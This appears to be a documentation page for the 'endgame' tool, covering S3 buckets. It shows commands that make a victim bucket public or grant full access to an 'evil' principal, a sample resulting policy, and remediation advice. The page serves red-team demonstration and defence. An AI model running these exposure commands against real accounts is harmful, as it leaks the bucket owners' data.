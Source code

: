 # S3 Buckets

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=*

endgame expose --service s3 --name test-resource-exposure
```

* To verify that the S3 bucket has been shared with the public, run the following from the victim account:

```bash
aws s3api get-bucket-policy --bucket test-resource-exposure
```

* Observe that the contents match the example shown below.


## Example

The response of the `get-bucket-policy` command will return the below. Observe how the Evil Principal (`arn:aws:iam::999988887777:evil`) is granted full access to the S3 bucket.

```json
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:evil\"},\"Action\":\"s3:*\",\"Resource\":[\"arn:aws:s3:::test-resource-exposure\",\"arn:aws:s3:::test-resource-exposure/*\"]}]}"
}


```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that  S3 Buckets are only shared with trusted accounts, and that the trusted accounts truly need access to the S3 Bucket.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your S3 Buckets**: Tightly control access to the following IAM actions:
  - [s3:GetBucketPolicy](https://docs.aws.amazon.com/AmazonS3/latest/API/API_GetBucketPolicy.html): _Grants permission to return the policy of the specified bucket. This includes information on which AWS accounts and principals have access to the bucket._
  - [s3:ListAllMyBuckets](https://docs.aws.amazon.com/AmazonS3/latest/API/API_ListBuckets.html): _Grants permission to list all buckets owned by the authenticated sender of the request_
  - [s3:PutBucketPolicy](https://docs.aws.amazon.com/AmazonS3/latest/API/API_PutBucketPolicy.html): _Grants permission to add or replace a bucket policy on a bucket._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

- [aws s3api put-bucket-policy](https://docs.aws.amazon.com/cli/latest/reference/s3api/put-bucket-policy.html)
- [aws s3api get-bucket-policy](https://docs.aws.amazon.com/cli/latest/reference/s3api/get-bucket-policy.html)